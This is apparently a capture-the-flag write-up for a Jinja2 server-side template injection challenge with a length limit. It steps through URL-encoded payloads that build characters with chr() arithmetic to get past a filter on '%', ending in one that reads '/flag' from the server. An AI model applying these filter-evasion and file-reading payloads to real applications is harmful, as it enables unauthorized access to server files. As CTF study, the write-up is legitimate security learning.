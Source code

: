 # SSTI

GOLF: https://github.com/redpwn/rctf-golf

https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti\

## Restriction

- no `%` -> mean no statement

## Getting Closer

- `"chr(61)"|e` -> `=`
- `"chr(64)"|e` -> `@`
- `+` need to escape as `%2B`
- Support `+`, `-`, `*`
  - `"chr(6*4*4-1)"|e` Got `_` (95 in ascii)
  - `"chr(46)"|e` Got `.` (46 in ascii)
  - `"chr(6*4*4%2B1)"|e` for `a`
  - `"chr(6*6*4-6*4-4-1)"|e` for `s`
  - `"chr(6*4%2B6%2B4)"|e` for `"`
  - `"chr(6*4*4%2B6%2B6%2B1)"|e` for `m`
  - `"chr(6*6*4-6*4-4-1)"|e` for `s`
  - `"chr(6*4*4%2B6%2B6%2B4-1)"` for `o`
  - `"chr(6*4*4%2B6*(4-1)-1)"|e` for `q`
  - `"chr(6*4*4%2B(4%2B1)*4)"|e` for `t`
  - `"chr(ord('o')%2B1)"|e` for `p`
  - `"chr(ord('o')-1)"|e` for `n`
  - `"chr(ord('h')-1)"|e` for `g`
  - `"chr(6*6%2B4%2B4)"|e` for `,`
  - `"chr(ord('h')-1-1)"|e` for `f`
  - 61 -> =, 66 -> B

## First Try Payload

```txt
chr(6*4*4-1)%2Bchr(6*4*4-1) -> "__"
```

```txt
{{"

# "".__class__
chr(6*4%2B6%2B4)%2Bchr(6*4%2B6%2B4)%2Bchr(46)%2Bchr(6*4*4-1)%2Bchr(6*4*4-1)%2B'cl'%2Bchr(6*4*4%2B1)%2Bchr(6*6*4-6*4-4-1)%2Bchr(6*6*4-6*4-4-1)%2Bchr(6*4*4-1)%2Bchr(6*4*4-1)

# .__mro__

%2Bchr(46)%2Bchr(6*4*4-1)%2Bchr(6*4*4-1)%2Bchr(6*4*4%2B6%2B6%2B1)%2B'ro'%2Bchr(6*4*4-1)%2Bchr(6*4*4-1)

"|e|e}}
```

```txt
{{"chr(6*4%2B6%2B4)%2Bchr(6*4%2B6%2B4)%2Bchr(46)%2Bchr(6*4*4-1)%2Bchr(6*4*4-1)%2B'cl'%2Bchr(6*4*4%2B1)%2Bchr(6*6*4-6*4-4-1)%2Bchr(6*6*4-6*4-4-1)%2Bchr(6*4*4-1)%2Bchr(6*4*4-1)%2Bchr(46)%2Bchr(6*4*4-1)%2Bchr(6*4*4-1)%2Bchr(6*4*4%2B6%2B6%2B1)%2B'ro'%2Bchr(6*4*4-1)%2Bchr(6*4*4-1)"|e|e}}
```

Out of limit 161

## Second Try

Try Request

```txt
# request
{{"
're'%2Bchr(6*4*4%2B6*(4-1)-1)%2B'ue'%2Bchr(6*6*4-6*4-4-1)%2Bchr(6*4*4%2B(4%2B1)*4)
"|e|e}}
```

```txt
{{"'re'%2Bchr(6*4*4%2B6*(4-1)-1)%2B'ue'%2Bchr(6*6*4-6*4-4-1)%2Bchr(6*4*4%2B(4%2B1)*4)"|e|e}}
```

Eval Failed: name 'request' is not defined
Not in Context ??

## Third Try

```txt
# ''+open('/flag','r').read()

{{"%27%27%2Bopen(%27/flag%27,%27r%27).read()"|e}}
```

```txt
# ''+open('/flag').read()

{{"
chr(46-6-1)%2Bchr(46-6-1)%2B
'%2B'%2B
'o'%2B
chr(ord('o')%2B1)%2B
'e'%2B
chr(ord('o')-1)%2B
'('%2B
chr(46-6-1)%2B
chr(46%2B1)%2B
chr(6*4*4%2B6)%2B
'l'%2B
chr(6*4*4%2B1)%2B
chr(ord('h')-1)%2B
chr(46-6-1)%2B
')'%2B
chr(46)%2B
're'%2B
chr(6*4*4%2B1)%2B
'd'%2B
'()'
"|e|e}}
```

```txt
{{"chr(46-6-1)%2Bchr(46-6-1)%2B'%2B'%2B'o'%2Bchr(ord('o')%2B1)%2B'e'%2Bchr(ord('o')-1)%2B'('%2Bchr(46-6-1)%2Bchr(46%2B1)%2Bchr(6*4*4%2B6)%2B'l'%2Bchr(6*4*4%2B1)%2Bchr(ord('h')-1)%2Bchr(46-6-1)%2B')'%2Bchr(46)%2B're'%2Bchr(6*4*4%2B1)%2B'd'%2B'()'"|e|e}}
```

to 205

## Final Pls Try

```txt
# (open('/flag').read())

{{(
'(o'%2B
(6*4*4%2B4*4)|ch%2B
'e'%2B
(66%2B6%2B6)|ch|l%2B
'('%2B
(44-4-1)|ch%2B
(46%2B1)|ch%2B
(66%2B4)|ch|l%2B
'l'%2B
(66-1)|ch|l%2B
(6*4*4%2B6%2B1)|ch%2B
(44-4-1)|ch%2B
')'%2B
46|ch%2B
're'%2B
(66-1)|ch|l%2B
'd())'
)|e}}
```

```txt
{{('(o'%2B(6*4*4%2B4*4)|ch%2B'e'%2B(66%2B6%2B6)|ch|l%2B'('%2B(44-4-1)|ch%2B(46%2B1)|ch%2B(66%2B4)|ch|l%2B'l'%2B(66-1)|ch|l%2B(6*4*4%2B6%2B1)|ch%2B(44-4-1)|ch%2B')'%2B46|ch%2B're'%2B(66-1)|ch|l%2B'd())')|e}}
```

with length: 160
